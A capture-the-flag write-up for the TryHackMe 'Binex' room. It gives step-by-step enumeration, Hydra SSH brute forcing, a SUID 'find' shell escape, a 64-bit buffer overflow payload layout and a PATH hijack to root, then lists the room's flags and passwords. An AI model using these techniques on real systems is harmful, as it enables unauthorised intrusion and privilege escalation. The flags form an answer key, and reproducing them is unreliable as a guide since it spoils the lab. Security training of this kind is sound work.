









# TryHackMe - Binex Writeup

## Overview
- **Room**: Binex
- **Target IP**: `10.49.175.208`
- **Difficulty**: Medium
- **Category**: Binary Exploitation / Linux Privilege Escalation
- **Key Concepts**: SMB Enumeration, SSH Brute Force, SUID Abusing (GTFOBins), 64-bit Stack Buffer Overflow (GDB), PATH Environment Variable Hijacking

---

## 1. Network Enumeration

We start by running an initial Nmap scan against the target machine to discover open ports and active services:

```bash
sudo nmap -sC -sV -Pn 10.49.175.208
```



### Findings:
- **Port 22/tcp**: OpenSSH 7.6p1 Ubuntu
- **Port 139/tcp & 445/tcp**: Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
- **NetBIOS Name**: `THM_EXPLOIT`

---

## 2. SMB User Enumeration & Initial Access

Because Samba is active, we enumerate local users across the RID range 1000–1003 using `rpcclient`:

```bash
rpcclient -U "" -N 10.49.175.208 -c "lookupsids S-1-22-1-1000 S-1-22-1-1001 S-1-22-1-1002 S-1-22-1-1003"
```



The query returns:
- `S-1-22-1-1000`: `Unix User\kel`
- `S-1-22-1-1001`: `Unix User\des`
- `S-1-22-1-1002`: `Unix User\tryhackme`
- `S-1-22-1-1003`: `Unix User\noentry`

As hinted in the challenge, the longest username has a weak password. We target the user **`tryhackme`** and brute-force SSH with Hydra:

```bash
hydra -l tryhackme -P passwords.txt -t 4 ssh://10.49.175.208
```

Hydra discovers the valid credential:
- **Username**: `tryhackme`
- **Password**: `thebest`

We connect to the victim machine via SSH:

```bash
ssh tryhackme@10.49.175.208
```



---

## 3. Privilege Escalation 1: SUID Exploitation (`tryhackme` -> `des`)

Once connected, we search for files with the SUID bit set that are owned by other system users:

```bash
find / -type f -perm -u=s -user des -ls 2>/dev/null
```



The binary `/usr/bin/find` has the SUID bit enabled and belongs to user `des` (`-rwsr-sr-x 1 des des`). 

According to **GTFOBins**, we can spawn an elevated shell using the `-exec` flag:

```bash
/usr/bin/find . -exec /bin/sh -p \; -quit
```

Once inside the elevated shell, we verify our user identity and read `flag.txt`:

```bash
whoami
cat /home/des/flag.txt
```



- **Task 2 Flag**: `THM{exploit_the_SUID}`
- **Discovered Credentials**: `des:destructive_72656275696c64`

---

## 4. Privilege Escalation 2: 64-bit Buffer Overflow (`des` -> `kel`)

Navigating to `/home/des`, we find an SUID executable `bof` owned by user `kel`, along with its source code `bof64.c`:

```bash
cd /home/des
ls -la
cat bof64.c
```



### Vulnerability Analysis:
```c
#include <stdio.h>
#include <unistd.h>

int foo(){
    char buffer[600];
    int characters_read;
    printf("Enter some string:\n");
    characters_read = read(0, buffer, 1000);
    printf("You entered: %s", buffer);
    return 0;
}

void main(){
    setresuid(geteuid(), geteuid(), geteuid());
    setresgid(getegid(), getegid(), getegid());
    foo();
}
```

The function `foo()` allocates a buffer of 600 bytes on the stack, but reads up to 1000 bytes into it using `read()`. Because stack canaries are disabled, we can overwrite the saved base pointer (RBP) at offset 608 and the return address (RIP) at offset 616 to redirect execution flow into a shellcode payload placed inside a NOP sled on the stack (`0x7fffffffe300`).

### Exploit Payload:
- **NOP Sled**: 400 bytes (`\x90`)
- **Shellcode**: 23 bytes (64-bit `execve("/bin/sh")`)
- **Padding**: 185 bytes (`"A" * 185`)
- **Saved RBP**: 8 bytes (`"B" * 8`)
- **Return Address**: `0x7fffffffe300` (8 bytes packed little-endian)
- **Total Payload Length**: 624 bytes

We pipe the payload into the vulnerable `./bof` binary:

```bash
(cat /tmp/exploit_payload; cat) | ./bof
```

When prompted, pressing Enter drops us into an interactive shell as user `kel`:

```bash
id
cat /home/kel/flag.txt
```



- **Task 3 Flag**: `THM{buffer_overflow_in_64_bit}`
- **Discovered Credentials**: `kel:kelvin_74656d7065726174757265`

---

## 5. Privilege Escalation 3: PATH Manipulation (`kel` -> `root`)

We switch fully into `kel`'s account using the discovered credentials:

```bash
su - kel
```

Checking `/home/kel` reveals an SUID binary `exe` owned by `root`:

```bash
ls -la
cat exe.c
```



### Vulnerability Analysis:
```c
#include <unistd.h>

void main()
{
    setuid(0);
    setgid(0);
    system("ps");
}
```

The program sets UID and GID to 0 (root) and executes `ps` using a **relative path** rather than an absolute path (`/bin/ps`).

Because the system searches the directories in `$PATH` sequentially from left to right, we can hijack the execution by placing a custom script named `ps` in `/tmp` and prepending `/tmp` to our `$PATH`:

```bash
# 1. Create malicious ps script that spawns a bash shell
echo "/bin/bash" > /tmp/ps
chmod +x /tmp/ps

# 2. Prepend /tmp to the PATH variable
export PATH=/tmp:$PATH

# 3. Execute the root SUID binary
./exe
```

When `./exe` executes, it invokes `/tmp/ps` with root privileges and drops us into a root shell (`#`):

```bash
whoami
cat /root/root.txt
```



- **Task 4 Flag**: `THM{SUID_binary_and_PATH_exploit}`

---

## Summary of Flags & Credentials

| Task | Category | Objective | Solution / Flag |
|---|---|---|---|
| **Task 1** | Initial Access | SSH Login Credentials | `tryhackme:thebest` |
| **Task 2** | SUID Escalation | `/home/des/flag.txt` | `THM{exploit_the_SUID}` |
| **Task 3** | Buffer Overflow | `/home/kel/flag.txt` | `THM{buffer_overflow_in_64_bit}` |
| **Task 4** | PATH Hijacking | `/root/root.txt` | `THM{SUID_binary_and_PATH_exploit}` |
